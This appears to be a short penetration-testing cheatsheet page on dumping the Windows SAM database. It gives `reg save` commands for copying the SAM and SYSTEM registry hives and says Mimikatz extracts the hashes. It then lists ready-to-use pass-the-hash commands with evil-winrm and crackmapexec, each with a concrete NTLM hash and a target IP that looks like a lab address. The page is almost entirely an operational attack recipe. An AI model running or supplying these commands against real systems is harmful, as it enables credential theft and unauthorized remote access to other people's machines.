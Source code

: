 ```yaml
---
layout: default
title: SAM Database
parent: CHEATSHEETS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Rerences

[Mimikatz and LSADUMP](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a)

## Extracting Passwords from SAM
The `SAM` and `SYSTEM` files cannot be copied when in use, but they can be backed up using:
```
cmd /c reg save HKLM\SAM SAM
cmd /c reg save HKLM\SYSTEM SYSTEM
```

In `CommandVM`, use `Mimikatz` to extract the hashes:

![Mimikatz](images/sam-passwords/mimikatz.png)

<br />

You can use either `Evil-WinRM` or `CME` to pass the hash:
```
// Evil.
evil-winrm -i 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051

// CME.
crackmapexec smb 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
crackmapexec winrm 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
```
